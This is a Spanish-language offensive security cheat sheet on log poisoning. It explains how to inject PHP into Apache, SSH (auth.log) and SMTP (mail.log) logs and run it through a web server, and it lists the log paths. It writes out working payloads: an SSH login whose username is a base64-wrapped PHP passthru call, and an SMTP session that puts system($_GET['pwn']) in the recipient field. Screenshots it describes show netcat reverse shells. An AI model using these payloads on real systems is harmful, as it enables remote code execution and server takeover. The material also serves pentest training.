 # Log Poisoning (Apache, SSH y SMPT)

## Links:

[**Apache Logs**](log-poisoning-apache-ssh-y-smpt.md#apache-logs)

[**SSH Logs**](log-poisoning-apache-ssh-y-smpt.md#ssh-logs)

[**SMPT Logs**](log-poisoning-apache-ssh-y-smpt.md#smtp-logs)



## Apache Logs&#x20;

Este ataque consiste en que si el usuario www-data tiene capacidad de lectura del archivo de **logs de apache**, poder modificar el contenido de este a través de una **cabecera HTTP** para que el navegador al acceder a este recurso ejecute código PHP arbitrario.

### Locations

RHEL / Red Hat / CentOS / Fedora Linux Apache access file location – /var/log/httpd/access\_log

FreeBSD Apache access log file location – /var/log/httpd-access.log

Debian / Ubuntu Linux Apache access log file location – /var/log/apache2/access.log

### Explotación

Si se cuenta con capacidad de lectura del archivo de logs, se puede modificar la cabezar HTTP **User-Agent** con una línea de código php para que al abrirse el archivo de logs el navegador interprete el código php que hayamos inyectado, bien sea a través de la url o un comando directamente.

En este caso haremos que php ejecute como comando de sistema todo la data que viaje por el método GET:

<figure><img src="../../.gitbook/assets/image (67).png" alt=""><figcaption></figcaption></figure>

Ahora cuando accedamos al fichero de logs podremos ejecutar comandos, en este caso que nos establezca una reverse shell a través de netcat:

<figure><img src="../../.gitbook/assets/image (72).png" alt=""><figcaption></figcaption></figure>

Máquina atacante:

<figure><img src="../../.gitbook/assets/image (55).png" alt=""><figcaption></figcaption></figure>



## SSH Logs

Este ataque consta de si el **servicio SSH está abierto** y el usuario www-data tiene capacidad de lectura del fichero de **logs de ssh**, es posible modificar este fichero para que el navegador al abrirlo ejecute código PHP.

### Location

/var/log/auth.log

Lo que tenemos que hacer ahora es loguearnos como el usuario, debido a que tiene muchos símbolos que pueden generar conflicto en la bash, lo vamos a encodear en base64, usando una función de php para que lo decodee una vez lo interprete el navegador y posteriormente lo ejecute:

{% code overflow="wrap" %}
```bash
ssh "<?php passthru(base64_decode(<Command in base64>)); ?>"@<TARGET-IP>
# JF9HRVRbJ3B3bidd == $_GET['pwn']
ssh "<?php passthru(base64_decode('JF9HRVRbJ3B3bidd')); ?>"@192.168.182.129
```
{% endcode %}

_passthru:  Execute an external program and display raw output_

Ahora cuando accedamos al fichero auth.log podremos pasarle un parámetro con el cual vamos a ejecutar comandos, en este caso una reverse shell a través de netcat:

<figure><img src="../../.gitbook/assets/image (10) (1).png" alt=""><figcaption></figcaption></figure>

Shell obtenida:

<figure><img src="../../.gitbook/assets/image (97).png" alt=""><figcaption></figcaption></figure>



## SMTP Logs

Este ataque consiste en que si hay un puerto **SMPT abierto**, pudiendo conectarnos a este para mandar un mail Y el usuario www-data tiene capacidad de lectura del archivo de **logs de smpt** se pueda ejecutar código PHP arbitrario a través de enviar un mail con una línea de código PHP en el remitente/receptor.

### Location

/var/log/mail.log

### Explotación

Lo primero será enviar un mail y en el campo del remitente/receptor poner el código php a ejecutar:

{% code overflow="wrap" %}
```bash
telnet <TARGET-IP> 25

MAIL FROM:evil-hacker   
250 2.1.0 Ok
RCPT TO:<?php system($_GET['pwn']); ?>
501 5.1.3 Bad recipient address syntax # Esto se ignora debido a que el servidor espera un ID y no un código php
```
{% endcode %}

